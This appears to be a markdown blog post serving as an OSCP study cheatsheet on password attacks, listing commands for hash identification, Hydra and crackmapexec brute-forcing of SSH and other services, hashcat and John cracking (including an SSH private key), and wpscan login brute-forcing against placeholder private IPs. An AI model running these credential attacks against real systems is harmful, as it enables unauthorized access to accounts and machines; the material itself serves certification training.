 ```yaml
---
title: Password Attacks
author: sKyW1per
category: "OSCP"
date: "2021-03-05 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Figuring out the kind of hash
```
$ hashid -e hash.txt
$ hash-identifier
```

###### Bruteforcing with Hydra
```
$ hydra -e nsr -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh
"-e nsr" = try "n" null password, "s" login as pass and/or "r" reversed login
```

###### Bruteforcing with Crackmapexec
```
$ crackmapexec ssh 192.168.1.1 -u users.txt -p passwords.txt
Other protocols with crackmapexec: ldap,mssql,winrm,smb
```

###### Password policy
```
$ net accounts

For Active Directory from powershell:
$ Get-ADDefaultDomainPasswordPolicy
```

###### Hashcat
```
$ echo "$1$hash" > hash.txt
$ hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

###### John
```
$ echo "$1$hash" > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$ john hash.txt --show

cracking id_rsa key
python2.7 /usr/share/john/ssh2john.py ./id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

###### WPScan
```
wpscan --url http://192.168.1.1/wp/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames username
```

###### Other online tools
```
CyberChef (GHCQ)
https://github.com/gchq/CyberChef
```
